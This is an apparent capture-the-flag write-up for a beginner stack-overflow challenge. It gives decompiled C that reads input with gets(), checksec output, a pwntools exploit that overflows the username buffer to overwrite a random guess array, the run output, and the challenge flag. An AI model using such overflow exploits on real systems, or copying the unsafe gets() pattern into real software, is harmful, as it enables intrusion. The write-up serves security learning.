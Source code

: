 # baby-stack

[library.m0unt41n.ch/challenges/baby-stack](https://library.m0unt41n.ch/challenges/baby-stack) ![](../../resources/pwn.svg) ![](../../resources/baby.svg) 

# TL;DR

Indeed, a very simple buffer overwflow.

# Decompilation

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, const char **argv, const char **envp) {
  char username[69]; // [rsp+10h] [rbp-80h] BYREF
  char buf[10];      // [rsp+55h] [rbp-3Bh] BYREF

  FILE *f = fopen("/dev/urandom", "r");
  if ( fread(buf, 1, 10, f) != 10 ) {
    printf("Bad randomness! Aborting...");
    exit(1);
  }
  printf("Welcome to baby-stack. Please login to get the flag.\nUsername: ");
  fflush(stdin);
  if ( ! gets(username) ) {
    puts("Please enter a username.");
    exit(1);
  }
  printf("Welcome, %s\n", username);
  fflush(stdin);
  puts("You will only get the flag if you can guess every character perfectly");
  fflush(stdin);
  for ( int i = 0; i <= 9; ++i ) {
    printf("Your guess: ");
    fflush(stdin);
    int c = (int)(buf[i] % 26 + 97);
    if ( c != getchar() ) {
      printf("\nSorry, no luck (character was '%c').\n", (char)c);
      exit(1);
    }
    puts("\nCorrect! Again...");
    fflush(stdin);
    getchar();
    sleep(1u);
  }
  char *flag = getenv("FLAG");
  if ( flag ) puts(flag);
         else puts("Flag is missing");
  puts("How did we get here, this should be impossible!");
  return fflush(stdin);
}
```

# Analysis

The binary initializes `buf[]` with 10 random bytes and the user has to guess all of them -
not literally, but by providing a character that will match `buf[i] % 26 + 97` pattern.

The binary is missing most protections:

```
$ checksec --file=baby-stack
RELRO     STACK CANARY     NX           PIE     RPATH     RUNPATH     Symbols     FORTIFY
No RELRO  No canary found  NX disabled  No PIE  No RPATH  No RUNPATH  44 Symbols  No
```

... although we don't even need that &#128578; The vulnerabiliity is in `gets(username)`,
which enables overflowing `buf[]` with known characters. So, if we put `B` in there,
all our guesses have to be `o` (`chr(ord('B') % 26 + 97)`). Simple exploit:

```python
import pwn
import os
pwn.context(arch='amd64', os='linux')
os.environ["FLAG"] = "flag{not_a_flag}"
io = pwn.process("./baby-stack")
io.sendline(b'A'*69+b'B'*10)
for i in range(10):
    io.sendline(b'o')
io.interactive()
```

Result:

```
$ ./exploit.py 
[+] Starting local process './baby-stack': pid 180647
[*] Switching to interactive mode
Welcome to baby-stack. Please login to get the flag.
Username: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBB
You will only get the flag if you can guess every character perfectly
Your guess: 
Correct! Again...
Your guess: 
Correct! Again...
Your guess: 
Correct! Again...
Your guess: 
Correct! Again...
Your guess: 
Correct! Again...
Your guess: 
Correct! Again...
Your guess: 
Correct! Again...
Your guess: 
Correct! Again...
Your guess: 
Correct! Again...
Your guess: 
Correct! Again...
flag{not_a_flag}
How did we get here, this should be impossible!
[*] Process './baby-stack' stopped with exit code 0 (pid 180647)
[*] Got EOF while reading in interactive
```

# Getting the flag

Running this against remote backend works just as well.

---

## `flag{y0ur_f1r5t_s74ck_0v3rfl0w???}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
